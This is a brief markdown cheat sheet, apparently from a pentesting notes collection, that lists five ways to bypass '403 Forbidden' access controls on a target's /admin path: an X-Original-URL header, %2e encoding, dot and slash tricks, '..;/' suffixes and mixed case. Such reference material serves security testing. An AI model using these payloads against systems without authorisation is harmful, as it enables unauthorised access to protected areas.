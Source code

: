 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
2. Appending **%2e** after the first slash
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name

    http://target.com/admin..;/


5. Try to uppercase the alphabet in the url
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)

